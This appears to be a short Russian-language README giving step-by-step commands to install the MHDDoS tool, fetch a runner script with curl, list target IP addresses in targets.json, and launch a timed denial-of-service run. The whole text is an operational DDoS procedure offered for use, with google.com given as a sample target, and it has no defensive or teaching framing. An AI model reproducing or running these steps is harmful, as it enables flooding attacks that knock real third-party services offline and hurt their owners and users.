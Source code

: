 1. Установите инструментарий
```
sudo apt-get update
sudo apt-get install -y jq python3-pip python-pyasn1
pip install pyasn1==0.4.6
```

2. Установите на сервере MHDDoS
```
git clone https://github.com/MHProDev/MHDDoS.git
cd MHDDoS
pip install -r requirements.txt
```

3. Выполните холостой запуск для подргужения прокси
```
 python3 start.py STRESS https://google.com 0 1 0 1 1
 ```

4. установите раннер
```
curl https://raw.githubusercontent.com/rxitech/k6clean/master/runner.sh > runner.sh
```

5. Создайте targets.json файл с целями в следующем формате (без запятой после последнего значения!)
```
{
 "127.0.0.1": "localhost",
 "172.217.19.78": "google.com"
}
```

6. Запустите раннер передав файл с целями и продолжительность выполнения в секундах
```
./runner.sh targets.json 300
```
